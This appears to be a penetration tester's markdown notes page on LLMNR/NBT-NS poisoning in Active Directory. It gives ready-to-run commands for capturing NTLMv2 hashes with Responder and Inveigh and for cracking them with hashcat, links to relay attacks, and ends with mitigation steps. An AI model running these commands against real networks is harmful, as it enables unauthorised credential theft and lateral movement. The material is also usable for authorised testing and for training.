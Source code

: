 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - AD
---
```

## From Linux
---

[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
```Python
sudo responder -I eth0 
```
Wait for hashes to come in
Crack them with
```Python
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
## From Windows
---
### **Using Inveigh**
https://github.com/Kevin-Robertson/Inveigh
```Python
Import-Module .\Inveigh.ps1
```
```Python
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
### **C# Inveigh (InveighZero)**
```Python
.\Inveigh.exe
```
We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`. We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth  
attempting to crack offline using Hashcat.

## Abuse
___
Once you receive a response:

you can either crack the Net-NTLMv2 hash

- See: [Hash Cracking](../Credential%20Access%20&%20Harvesting/Hash%20Cracking.md)

Or relay the to authenticate to a service

- See: [Relay Attacks](../Lateral%20Movement/Relay%20Attacks.md)


## Mitigation
---
1. Select "Turn OFF multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor
2. Disable NBT-NS navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBios over TCP/IP". 
**If you cannot disable for whatever reason**
- Require Network Access Control (NAC)
- Require strong passwords: over 14 characters with capitals and symbols and no common words. The better the password, the longer it takes an attacker to crack the hash